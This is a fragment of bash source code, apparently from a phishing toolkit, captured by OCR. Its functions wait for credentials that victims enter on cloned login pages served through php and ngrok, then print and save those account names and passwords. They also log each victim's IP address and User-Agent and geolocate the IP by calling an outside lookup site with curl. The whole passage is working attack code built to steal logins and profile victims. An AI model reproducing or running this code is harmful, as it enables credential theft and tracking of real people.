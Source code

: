   
 } 
  
 catch_cred() { 
  
 account=$(grep -o 'Account:.*' sites/$server/usernames.txt | cut -d " " -f2) 
 IFS=$'\n' 
 password=$(grep -o 'Pass:.*' sites/$server/usernames.txt | cut -d ":" -f2) 
 printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Account:\e[0m\e[1;77m %s\n\e[0m" $account 
 printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m]\e[0m\e[1;92m Password:\e[0m\e[1;77m %s\n\e[0m" $password 
 cat sites/$server/usernames.txt >> sites/$server/saved.usernames.txt 
 printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m sites/%s/saved.usernames.txt\e[0m\n" $server 
 killall -2 php > /dev/null 2>&1 
 killall -2 ngrok > /dev/null 2>&1 
 exit 1 
  
 } 
  
 getcredentials() { 
 printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Waiting credentials ...\e[0m\n" 
 while [ true ]; do 
  
  
 if [[ -e "sites/$server/usernames.txt" ]]; then 
 printf "\n\e[1;93m[\e[0m*\e[1;93m]\e[0m\e[1;92m Credentials Found!\n" 
 catch_cred 
  
 fi 
 sleep 1 
 done  
  
  
 } 
  
 catch_ip() { 
 touch sites/$server/saved.usernames.txt 
 ip=$(grep -a 'IP:' sites/$server/ip.txt | cut -d " " -f2 | tr -d '\r') 
 IFS=$'\n' 
 ua=$(grep 'User-Agent:' sites/$server/ip.txt | cut -d '"' -f2) 
 printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Victim IP:\e[0m\e[1;77m %s\e[0m\n" $ip 
 printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] User-Agent:\e[0m\e[1;77m %s\e[0m\n" $ua 
 printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m %s/saved.ip.txt\e[0m\n" $server 
 cat sites/$server/ip.txt >> sites/$server/saved.ip.txt 
  
  
 if [[ -e iptracker.log ]]; then 
 rm -rf iptracker.log 
 fi 
  
 IFS='\n' 
 iptracker=$(curl -s -L "www.ip-tracker.org/locator/ip-lookup.php?ip=$ip" --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31" > iptracker.log) 
 IFS=$'\n' 
 continent=$(grep -o 'Continent.*' iptracker.log | head -n1 | cut -d ">" -f3 | cut -d "<" -f1) 
 printf "\n" 
 hostnameip=$(grep  -o "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f7 | cut -d ">" -f2) 
 if [[ $hostnameip != "" ]]; then 
 printf "\e[1;92m[*] Hostname:\e[0m\e[1;77m %s\e[0m\n" $hostnameip 
 fi 
 ## 
  